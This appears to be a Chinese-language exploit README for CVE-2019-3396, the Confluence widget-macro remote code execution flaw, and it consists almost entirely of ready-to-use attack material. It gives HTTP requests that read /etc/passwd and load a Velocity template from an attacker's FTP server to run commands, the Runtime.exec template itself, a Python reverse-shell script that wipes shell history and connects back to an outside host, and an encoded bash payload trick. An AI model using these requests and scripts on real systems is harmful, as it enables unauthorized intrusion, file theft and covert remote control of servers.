







# CVE-2019-3396
### Confluence 未授权 RCE (CVE-2019-3396) 漏洞

#### 坑点：有些版本需要加Referer才能成功



## File Read
```
POST /rest/tinymce/1/macro/preview HTTP/1.1
Host: 10.10.20.181
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:55.0) Gecko/20100101 Firefox/55.0
Accept: text/plain, */*; q=0.01
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate, br
Content-Type: application/json; charset=utf-8
X-Requested-With: XMLHttpRequest
Referer: http://10.10.20.181/
Content-Length: 167
X-Forwarded-For: 127.0.0.2
Connection: keep-alive

{"contentId":"1","macro":{"name":"widget","params":{"url":"https://www.viddler.com/v/test","width":"1000","height":"1000","_template":"file:///etc/passwd"},"body":""}}
```




## excute ifconfig

```
POST /rest/tinymce/1/macro/preview HTTP/1.1
Host: 10.10.20.181
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:55.0) Gecko/20100101 Firefox/55.0
Accept: text/plain, */*; q=0.01
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate, br
Content-Type: application/json; charset=utf-8
X-Requested-With: XMLHttpRequest
Referer: http://10.10.20.181/
Content-Length: 198
X-Forwarded-For: 127.0.0.2
Connection: keep-alive

{"contentId":"1","macro":{"name":"widget","params":{"url":"https://www.viddler.com/v/test","width":"1000","height":"1000","_template":"ftp://10.10.20.166:8886/r.vm","command":"ifconfig"},"body":""}}

```



## python ftp

```
pip install pyftpdlib

python -m pyftpdlib -p  8888
```



## r.vm
from  https://github.com/pyn3rd/CVE-2019-3396
```
#set ($exp="exp")
#set ($a=$exp.getClass().forName("java.lang.Runtime").getMethod("getRuntime",null).invoke(null,null).exec($command))
#set ($input=$exp.getClass().forName("java.lang.Process").getMethod("getInputStream").invoke($a))
#set($sc = $exp.getClass().forName("java.util.Scanner"))
#set($constructor = $sc.getDeclaredConstructor($exp.getClass().forName("java.io.InputStream")))
#set($scan=$constructor.newInstance($input).useDelimiter("\\A"))
#if($scan.hasNext())
    $scan.next()
#end
```

## 弹shell

```
POST /rest/tinymce/1/macro/preview HTTP/1.1
Host: 10.10.20.181
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:55.0) Gecko/20100101 Firefox/55.0
Accept: text/plain, */*; q=0.01
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate, br
Content-Type: application/json; charset=utf-8
X-Requested-With: XMLHttpRequest
Referer: http://10.10.20.181/
Content-Length: 232
X-Forwarded-For: 127.0.0.2
Connection: keep-alive

{"contentId":"1","macro":{"name":"widget","params":{"url":"https://www.viddler.com/v/test","width":"1000","height":"1000","_template":"ftp://10.10.20.166:8888/r.vm","command":"setsid python /tmp/nc.py 10.10.20.166 8989"},"body":""}}

```

#### nc.py
```

# -*- coding:utf-8 -*-
#!/usr/bin/env python
"""
back connect py version,only linux have pty module
code by google security team
"""
import sys,os,socket,pty
shell = "/bin/sh"
def usage(name):
    print 'python reverse connector'
    print 'usage: %s <ip_addr> <port>' % name

def main():
    if len(sys.argv) !=3:
        usage(sys.argv[0])
        sys.exit()
    s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
    try:
        s.connect((sys.argv[1],int(sys.argv[2])))
        print 'connect ok'
    except:
        print 'connect faild'
        sys.exit()
    os.dup2(s.fileno(),0)
    os.dup2(s.fileno(),1)
    os.dup2(s.fileno(),2)
    global shell
    os.unsetenv("HISTFILE")
    os.unsetenv("HISTFILESIZE")
    os.unsetenv("HISTSIZE")
    os.unsetenv("HISTORY")
    os.unsetenv("HISTSAVE")
    os.unsetenv("HISTZONE")
    os.unsetenv("HISTLOG")
    os.unsetenv("HISTCMD")
    os.putenv("HISTFILE",'/dev/null')
    os.putenv("HISTSIZE",'0')
    os.putenv("HISTFILESIZE",'0')
    pty.spawn(shell)
    s.close()

if __name__ == '__main__':
    main()
```


## encode payload

http://www.jackson-t.ca/runtime-exec-payloads.html

```
whoami

>>> bash -c {echo,d2hvYW1p}|{base64,-d}|{bash,-i}
```



## python cve-2019-3396.py

`python test.py http://10.10.20.181 "cat /etc/passwd"`



去掉div每行头尾空白


